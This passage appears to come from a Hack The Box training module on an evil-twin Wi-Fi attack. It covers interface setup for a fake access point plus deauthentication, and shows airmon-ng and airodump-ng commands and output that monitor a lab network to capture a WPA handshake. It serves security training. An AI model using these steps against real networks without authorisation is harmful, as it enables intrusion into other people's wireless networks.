 To ensure a successful setup, we need at least two wireless interfaces that support monitor mode and packet injection. These can be either two 2.4 GHz interfaces, two 5 GHz interfaces, or one of each, depending on the target network. The reason for this is that hosting the fake access point is resource-intensive for the wireless card, and we still need to perform monitoring and deauthentication/disassociation attacks. Therefore, we dedicate one card to host the fake AP (e.g., `wlan1`) and the other to monitor the network and handle deauthentication/disassociation (e.g., `wlan0`). This setup ensures that both tasks can be performed simultaneously without overloading a single interface.

Note: All the commands shown in this module should be run as root. Use 'sudo -s' to switch to the root user.

* * *

## Performing the Attack:

* * *

### 1\. Monitor the target & capture valid WPA handshake

First, we need to set our interface to monitor mode using `airmon-ng`.

```shell
sudo airmon-ng start wlan0

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    559 NetworkManager
    798 wpa_supplicant

PHY     Interface       Driver          Chipset

phy0    wlan0           rt2800usb       Ralink Technology, Corp. RT2870/RT3070
                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
                (mac80211 station mode vif disabled for [phy0]wlan0)

```

Next, we will use `airodump-ng` to scan for available Wi-Fi networks. To save the scan results for later analysis, we use the `--write` (or `-w`) parameter followed by a filename. This writes the output to a file with the specified prefix, enabling us to efficiently store and review the captured data.

```shell
airodump-ng wlan0mon -w HTB -c 1

11:32:13  Created capture file "HTB-01.cap".

 CH 1 ][ Elapsed: 6 s ][ 2024-11-27 11:55

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 D4:C1:8B:79:AD:45  -28        7        2    0   1   54   WPA2 TKIP   PSK  HTB-Corp

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 D4:C1:8B:79:AD:45  C2:CA:2A:79:D5:87  -29   54 -48      0        2

```
